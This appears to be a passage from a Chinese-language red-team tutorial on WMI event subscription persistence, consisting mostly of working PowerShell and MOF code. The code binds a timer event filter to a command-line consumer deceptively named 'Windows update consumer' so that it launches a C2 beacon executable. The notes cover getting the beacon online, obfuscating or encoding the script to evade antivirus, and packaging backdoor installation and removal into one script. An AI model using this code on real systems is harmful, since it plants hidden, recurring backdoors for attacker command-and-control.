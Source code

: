     
    $Filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments $EventFilterArgs;
    $FinalPayload = 'cmd.exe /c c:\beacon.exe'
    
    $CommandLineConsumerArgs = @{
     Name = "Windows update consumer"
     CommandLineTemplate = $FinalPayload};
    
    
    $Consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments $CommandLineConsumerArgs;
    
    
    $FilterToConsumerArgs = @{
     Filter = $Filter
     Consumer = $Consumer};
    
    
    $FilterToConsumerBinding = Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments $FilterToConsumerArgs;
    

> ***注意**
> ：上述脚本出现的WQL语句，也可以指定WITHIN来指定间隔时间，以秒为单位，但是需提前指定TimerID，可以自行修改PS1脚本进行完善，将添加后门、删除后门的操作集成到一个脚本内完成，同时免杀的操作可以针对性的进行混淆或编码的操作。*
    
    
    SELECT * FROM __TimerEvent WITHIN 10 WHERE TimerID = 'Trigger'
    

**上线C2**

> ***注意**
> ：将上述Powershell脚本替换其执行的Payload进行本地执行，另存为ps1格式并修改其轮询的时间。若想做成远程下载格式，则需要将Powershell做好免杀的操作。*

运行ps1脚本后成功上线

**Mof文件添加事件**

> ***注意** ：笔者在测试Mof文件添加事件时，编译后的确能够正常添加事件，但是未能执行指定命令。*
    
    
    #PRAGMA NAMESPACE ("\\\\.\\root\\subscription")
    instance of CommandLineEventConsumer as $Cons
    {
        Name = "test1comsumer";
        RunInteractively=false;
        CommandLineTemplate="cmd.exe /c c:\beacon.exe";
    };
    
    instance of __EventFilter as $Filt
    {
        Name = "test1filter";
        EventNamespace = "root\\cimv2";
        Query ="SELECT * FROM __TimerEvent  WITHIN 10 WHERE TimerID = 'test1filter'";
        QueryLanguage = "WQL";
    };
    
    instance of __FilterToConsumerBinding
    { 
         Filter = $Filt;
         Consumer = $Cons;
    };
    